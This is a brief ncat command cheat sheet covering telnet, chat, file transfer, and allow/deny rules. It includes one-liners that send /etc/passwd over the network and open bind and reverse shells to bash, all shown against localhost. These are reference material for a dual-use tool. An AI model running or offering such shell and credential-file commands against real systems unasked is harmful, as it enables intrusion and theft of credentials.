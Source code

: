 ### Telnet

```shell
ncat -t remote.net 23
```

### Chat room

```shell
ncat -l 10101 --chat # serve
ncat 127.0.0.1 10101 # join

# SSL
ncat -l 10101 --chat --ssl # serve under SSL
ncat 127.0.0.1 10101 --ssl # join
```

### Sending files

```shell
# UDP
ncat -lu 9999 > passwd # stop it manually because of UDP
ncat -u 127.0.0.1 9999 < /etc/passwd

# TCP
ncat -l 9999 > passwd
ncat 127.0.0.1 9999 < /etc/passwd

# SSL
ncat -l 9999 --ssl > passwd
ncat 127.0.0.1 9999 --ssl < /etc/passwd
ncat 127.0.0.1 9999 --ssl --send-only < /etc/passwd
```

### Access control

```shell
ncat -l 80 --allow '127.0.0.1,192.168.*.*'
ncat -l 80 --allowfile whitelist.txt # separated by \n
ncat -l 80 --deny '192.168.*.*'
ncat -l 80 --denyfile blacklist.txt # separated by \n
```

### Bind shell

```shell
ncat -l 8888 -e /bin/bash
ncat -l 8888 -c 'bash -i 2>&1'
```

### Reverse shell

```shell
ncat -l 8888

ncat 127.0.0.1 8888 -e /bin/bash
ncat 127.0.0.1 8888 -c 'bash -i 2>&1'
```
